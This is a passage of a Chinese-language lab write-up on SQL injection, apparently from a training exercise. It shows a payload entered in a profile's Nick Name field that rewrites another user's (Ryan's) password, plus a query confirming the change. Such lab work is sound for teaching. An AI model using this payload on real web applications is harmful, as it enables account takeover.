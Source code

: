 ![image-20220325122832334](SQLInjection/image-20220325122832334.png)

```
4c1b52409cf6be3896cf163fa17b32e4da293f2e
```

构造 SQL 注入语句：

```sql
',Password='你自己sha1加密' where Name='Ryan';#
```

在 Alice 的 Nick Name 栏中输入。

![image-20220325123427776](SQLInjection/image-20220325123427776.png)

在命令行查看表的信息，发现，Ryan 密码修改成功。

```sql
select * from credential where name= 'Ryan';
```

![image-20220325123542109](SQLInjection/image-20220325123542109.png)

> 为了确保你的注入字符串不包含任何语法错误，你可以在对我们的 web 应用程序发动真正的攻击之前在 MySQL 控制台测试你的注入字符串。
